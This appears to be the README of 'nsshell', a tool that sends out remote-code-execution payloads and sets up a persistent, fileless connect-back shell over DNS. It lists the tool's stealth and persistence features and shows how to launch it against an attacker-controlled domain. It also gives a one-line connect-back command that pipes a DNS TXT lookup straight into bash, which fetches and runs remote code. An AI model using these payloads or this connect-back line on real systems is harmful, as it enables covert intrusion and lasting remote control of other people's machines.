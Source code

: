 Think sqlmap meets xsshunter - but looking for (blind/nonblind) RCE to get a DNS connectback shell. 

> persistent shell (even if you exit nsshell.py)
> doesn't touch disk
> resumes access when you restart nsshell.py
> nothing to install or compile for the target
> the target can use their own trusted DNS resolver - or automatically upgrade to a direct connection for speed

Start:
The tool needs to know which domain it has control over:
sudo ./nsshell.py hack.com 123.123.123.112
...
>wrote connect-back payloads to:payloads.txt"

The file above contains a list of auto-pwns. Run one of the payloads and a persistent shell will be loaded over DNS.

That's all folks!

## install
sudo make install && echo $(which nsshell) && nsshell localhost 127.0.0.1

spawn a connectback:
nslookup -type=txt 1 localhost | bash
